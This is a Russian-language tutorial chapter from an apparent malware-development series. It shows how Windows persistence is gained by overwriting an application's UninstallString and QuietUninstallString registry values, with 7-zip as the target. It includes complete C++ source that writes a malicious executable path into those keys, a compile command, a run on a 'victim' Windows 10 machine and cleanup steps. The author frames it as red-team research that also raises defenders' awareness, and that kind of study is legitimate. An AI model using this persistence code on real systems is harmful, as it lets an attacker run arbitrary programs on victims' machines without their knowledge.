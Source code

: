 \newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

﷽

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<имя приложения>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<имя приложения>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Затем я создаю программу, которая выполняет мою логику для персистентности (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт персистентности:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

И запускаем на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Как можно видеть, родительский процесс - `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для персистентности, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для персистентности, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
